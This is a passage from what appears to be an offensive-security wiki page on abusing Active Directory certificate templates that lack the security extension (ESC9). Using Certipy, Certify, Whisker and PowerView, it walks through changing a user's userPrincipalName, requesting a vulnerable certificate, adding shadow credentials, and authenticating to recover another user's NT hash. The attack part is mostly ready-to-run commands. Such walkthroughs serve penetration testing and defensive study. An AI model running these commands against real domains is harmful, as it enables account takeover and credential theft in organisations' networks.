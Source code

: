 The vulnerable certificate can be requested as **user2**.

```bash
certipy req -username "user2@$DOMAIN" -hash "$NT_HASH" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable template'
```

The **user2**'s UPN is changed back to something else.

```bash
certipy account update -username "user1@$DOMAIN" -p "$PASSWORD" -user user2 -upn "user2@$DOMAIN"
```

Now, authenticating with the obtained certificate will provide the **user3**'s NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). The domain must be specified since it is not present in the certificate.

```bash
certipy auth -pfx 'user3.pfx' -domain "$DOMAIN"
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **user3** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a **user2** session.
